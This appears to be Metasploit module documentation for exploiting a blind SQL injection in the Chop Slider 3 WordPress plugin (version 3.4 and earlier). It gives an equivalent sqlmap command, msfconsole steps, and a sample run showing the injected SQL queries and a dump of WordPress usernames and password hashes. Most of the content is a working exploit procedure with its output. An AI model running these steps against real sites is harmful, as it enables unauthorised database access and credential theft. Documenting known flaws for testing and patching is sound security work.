 ## Vulnerable Application

The iDangero.us Chop Slider 3 WordPress plugin 3.4 and prior
contains a blind SQL injection in the `id` parameter of the
`get_script/index.php` page.  The injection is passed through `GET`
parameters, and thus must be encoded, and magic_quotes is applied at the server.

The plugin can be downloaded from
[github](https://github.com/idangerous/Plugins/blob/master/Chop%20Slider%203/Chop%20Slider%203%20Wordpress/Wordpress_ChopSlider_3_4.zip)

This module slightly replicates sqlmap running as:

```
sqlmap -u 'http://local.target/wp-content/plugins/chopslider/get_script/index.php?id=1111111111' --level=5 --risk=3 --technique=B
```

## Verification Steps

1. Install the plugin and activate it
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_chopslider_id_sqli`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get a dump of usernames and password hashes.

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COUNT

If Action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### iDangero.us Chop Slider 3.4 on Wordpress 5.4.4 running on Ubuntu 20.04.

```
resource (chopslider.rb)> use auxiliary/scanner/http/wp_chopslider_id_sqli
resource (chopslider.rb)> set rhosts 111.111.1.111
rhosts => 111.111.1.111
resource (chopslider.rb)> set verbose true
verbose => true
resource (chopslider.rb)> set count 3
count => 3
resource (chopslider.rb)> run
[*] Version detected: 3.4
[+] Vulnerable version of ChopSlider3 detected
[*] Enumerating Usernames
[*] {SQLi} Executing (select group_concat(qlJEzvIJY) from (select cast(ifnull(user_login,'') as binary) qlJEzvIJY from wp_users limit 3) DSKc)
[*] {SQLi} Time-based injection: expecting output of length 19
[*] Enumerating Password Hashes
[*] {SQLi} Executing (select group_concat(NtxL) from (select cast(ifnull(user_pass,'') as binary) NtxL from wp_users limit 3) YztNPLK)
[*] {SQLi} Time-based injection: expecting output of length 104
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/
 editor      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_chopslider_id_sqli) > creds
Credentials
===========

host  origin         service  public  private                             realm  private_type        JtR Format
----  ------         -------  ------  -------                             -----  ------------        ----------
      111.111.1.111           editor  $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1         Nonreplayable hash  phpass
      111.111.1.111           admin2  $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/         Nonreplayable hash  phpass
      111.111.1.111           admin   $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0         Nonreplayable hash  phpass
```
